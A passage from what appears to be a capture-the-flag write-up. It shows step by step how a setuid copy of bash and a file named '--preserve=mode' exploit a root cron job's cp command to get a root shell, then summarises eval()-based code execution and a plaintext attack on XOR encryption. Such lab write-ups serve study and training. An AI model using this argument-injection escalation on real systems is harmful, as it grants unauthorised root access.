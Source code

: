 → We can use the same method for the cron job by 
  - making a copy of the bash binary and giving it the setuid permission.  
  - After that, we create an empty file named --preserve=mode using echo "" > "--preserve=mode".  
  - This way, when the script runs, the copied file keeps its permissions when it’s moved to the backups folder.  

→ Therefore executing
  ```bash
  gordon@ip-10-201-62-203:~/reports$ cp /usr/bin/bash . 
  gordon@ip-10-201-62-203:~/reports$ chmod u+s bash
  gordon@ip-10-201-62-203:~/reports$ echo "" > "--preserve=mode"
  gordon@ip-10-201-62-203:~/reports$ ls -la
  total 1180
  drwxrwx--- 2 gordon gordon    4096 Aug 15 14:42  .
  drwxr-xr-x 5 gordon gordon    4096 Aug 15 14:22  ..
  -rwsr-xr-x 1 gordon gordon 1183448 Aug 15 14:42  bash
  -rw-rw-r-- 1 gordon gordon       1 Aug 15 14:42 '--preserve=mode'
  -rw-r--r-- 1    640 gordon      57 Feb 19  2023  report1
  -rw-r--r-- 1    640 gordon      72 Feb 19  2023  report2
  -rw-r--r-- 1    640 gordon     100 Feb 19  2023  report3
   ```
→ After waiting for a minute or two and then executing "./bash -p" succesfully received a root shell.  
→ Obtained the root flag from root directory.  



## 🔍 Key Findings  

- Blind Remote Code Execution through eval() function.  
- Plain text attack to find key for XOR encryption.  
- Privilege escalation using "cp".  

## 📚 What I Learned  
 
- eval() function is dangerous, developers should be wary when using this function.  
- Not to keep important information lying around in system and not using proven and strong encryption techniques.  
- Plaintext attack in XOR Encryption.  
- Privilege escalation using "--preserve=mode" functionality of cp command.  
















